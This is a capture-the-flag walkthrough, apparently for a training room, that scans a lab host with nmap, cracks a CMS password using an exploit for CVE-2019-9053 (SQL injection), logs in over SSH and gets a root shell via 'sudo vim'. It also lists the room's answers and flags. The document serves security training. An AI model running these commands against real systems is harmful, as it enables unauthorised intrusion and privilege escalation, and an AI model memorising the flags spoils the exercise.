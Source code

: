 ### How many services are running under port 1000?
```BASH
nmap -sV -p1-1000 10.10.149.245
```
`-sV` - determine service/version info  

`-p1-1000` - strictly ports 1 to 1000  

![image](https://github.com/user-attachments/assets/a564f521-f758-4386-8b7e-fdf302a5033d)
<pre>2</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is running on the higher port?
```BASH
nmap -sV -p- 10.10.149.245
```
![image](https://github.com/user-attachments/assets/83e955f4-0545-4867-b272-1641190e728c)

`-p-` - scan all ports
<pre>ssh</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's the CVE you're using against the application?
<pre>CVE-2019-9053</pre>

<span style="line-height:0.5;">&nbsp;</span>

### To what kind of vulnerability is the application vulnerable?
<pre>SQLi</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's the password?
Download or copy-paste python code to file [exploit-db](https://www.exploit-db.com/exploits/46635) After creating file run:
```BASH
python2 exploit.py -u http://10.10.149.245/simple --crack -w /usr/share/wordlists/rockyou.txt
```
![image](https://github.com/user-attachments/assets/1887f377-bd6a-4fc2-ad81-c1ceea2b7463)

<span style="line-height:0.5;">&nbsp;</span>

### Where can you login with the details obtained?
<pre>ssh</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's the user flag?
```BASH
ssh mitch@10.10.149.245 -p 2222
```
![image](https://github.com/user-attachments/assets/79ea498b-ab33-4b45-83f8-da8ef18a8dcf)
<pre>G00d j0b, keep up!</pre>

<span style="line-height:0.5;">&nbsp;</span>

### Is there any other user in the home directory? What's its name?
```BASH
cd ..
ls
```
<pre>sunbath</pre>
<span style="line-height:0.5;">&nbsp;</span>

### What can you leverage to spawn a privileged shell?
Run:
```BASH
sudo -l
```
![image](https://github.com/user-attachments/assets/d0586f88-c5ac-4e2d-ab21-b0fc2ad6dfaa)
<pre>vim</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What's the root flag?
To escalate privileges using vim go to [GTFOBins](https://gtfobins.github.io/) and search vim. Go to 'Sudo' section and if you can run vim as root via sudo, spawn a root shell by running:
```BASH
sudo vim -c ':!/bin/sh'
```
This command opens vim and immediately executes /bin/sh from within it, giving you a root shell. Exit Vim to open root shell.  

![image](https://github.com/user-attachments/assets/ac6c31d0-bea6-4468-8ec8-5fc75421bde2)

CTF flag
<pre>W3ll d0n3. You made it!</pre>

